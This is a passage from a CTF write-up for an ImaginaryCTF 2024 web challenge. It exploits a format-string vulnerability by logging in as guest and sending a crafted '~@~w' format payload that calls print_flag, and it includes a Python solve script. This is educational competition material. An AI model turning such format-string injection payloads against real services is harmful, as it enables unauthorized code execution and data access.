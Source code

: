So, we can use username `guest` password `guest` to login!

## Exploitation

With the above information, we can now exploit the format string vulnerability to get the flag!

- Login as `guest` account

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ImaginaryCTF-2024/images/Pasted%20image%2020240723151021.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ImaginaryCTF-2024/images/Pasted%20image%2020240723151030.png)

- Send the following request to get the flag

```http
GET /greet?greeting=print_flag&format=~@~w HTTP/1.1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ImaginaryCTF-2024/images/Pasted%20image%2020240723151113.png)

Or run the following solve script:

```python
#!/usr/bin/env python3
import requests
import re

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.session()
        self.GUEST_CREDENTIALS = 'guest'
        self.PRINT_FLAG_FUNCTION_NAME = 'print_flag'
        self.FORMAT_PAYLOAD = '~@~w'
        self.FLAG_REGEX = re.compile('(ictf\{.*?\})')

    def login(self):
        url = f'{self.baseUrl}/login'
        data = {
            'username': self.GUEST_CREDENTIALS,
            'password': self.GUEST_CREDENTIALS
        }

        self.session.post(url, data=data)

    def getFlag(self):
        url = f'{self.baseUrl}/greet'
        parameters = {
            'greeting': self.PRINT_FLAG_FUNCTION_NAME,
            'format': self.FORMAT_PAYLOAD
        }

        responseText = self.session.get(url, params=parameters).text
        match = re.search(self.FLAG_REGEX, responseText)
        if match is None:
            print('[-] Unable to read the flag')
            exit(0)

        flag = match.group(0)
        print(f'[+] We got the flag! Flag: {flag}')

    def solve(self):
        self.login()
        self.getFlag()

if __name__ == '__main__':
```